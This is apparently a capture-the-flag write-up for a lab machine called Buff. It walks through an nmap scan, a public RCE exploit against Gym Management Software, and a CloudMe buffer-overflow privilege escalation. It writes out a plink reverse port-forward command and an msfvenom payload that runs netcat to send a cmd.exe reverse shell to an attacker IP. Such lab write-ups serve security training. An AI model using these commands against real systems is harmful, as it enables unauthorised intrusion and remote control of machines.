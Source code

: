 # Buff

`nmap -T4 -O -A -sV -p- -sS -Pn -n -vvv -oA scan1 10.10.10.198`
![](1.png)

`http://10.10.10.198:8080/`

![](2.png)

*Now if you go to the About section of the website then youll find that it is created using Gym management software 1.0*

![](3.png)

*After googling the software version i found a RCE vulneraility in the system. the exploit of the vulnerability is uploaded on exploit-db*

![](4.png)

*I downloaded it and executed it as shown further and i got a reverse shell of the machine*
![](5.png)

**Here we get the user flag**


*Now we need to get a command shell of the machine , so in order to  get a command line shell we need to upload following exe files
NETCAT : TO GET A REVERSE SHELL
PLINK : TO PORT FORWARD*

![](6.png)
![](7.png)
![](8.png)
![](9.png)

**Now getting root flag..**


*If you enumerate more in the machine then in the Download folder you  will get a exe file `Cloudme1.11.2.exe` which represents that the version  is vulnerable to Buffer Overflow . We have a exploit for that verision  on exploit-db 
Now we need to Port forward the ip of the machine using plink which we alraedy uploaded on the machine
so lets upload using following command :* 

`plink1.exe -l prof3ssor -pw toor 10.10.14.96 -R 8888:127.0.0.1:8888`

![](10.png)
![](11.png)

Now we need to do some changes in our 48389 exploit , just copy the  output of the following metasploit payload and replace it to 48389  exploits buffer codes
The metasploit payload : `msfvenom -p windows/exec  CMD=’c;\xampp\htdocs\gym\upload\nc.exe -e cmd.exe 10.10.14.96 4444′ -b  ‘\x00\x0a\x0d’ -f py -v payload` 

![](12.png)

*Now start a netcat listner as nc -lnvp 4444 and on the second terminal exeute the payload as follows :*

![](13.png)

 *we got the root privilege in the system Now lets find the root flag .*